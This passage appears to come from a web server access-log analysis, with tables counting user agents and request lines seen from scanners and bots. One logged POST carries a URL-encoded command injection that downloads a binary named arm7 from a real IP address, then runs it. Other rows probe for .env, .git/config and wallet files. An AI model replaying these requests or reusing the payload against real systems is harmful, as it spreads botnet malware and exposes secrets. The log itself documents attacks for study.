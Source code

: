 | 128 |                     1 | masscan/1.0 (https://github.com/robertdavidgraham/masscan)                                                                                                                                                                                                                    |
| 129 |                     1 | Mozilla/5.0 (Linux; Android 11; SM-A515F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.58 Mobile Safari/537.36                                                                                                                                                    |

## request

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                        |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   0 |                   308 | GET / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                 |
|   1 |                    98 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.114%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                     |
|   2 |                    55 | GET / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                 |
|   3 |                    40 | GET /.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
|   4 |                    36 | GET /cgi-bin/luci/;stok=/locale HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |
|   5 |                    22 | GET /favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                      |
|   6 |                    21 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                      |
|   7 |                    20 | GET /json/wallet.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
|   8 |                    15 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                                                              |
|   9 |                    12 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                |
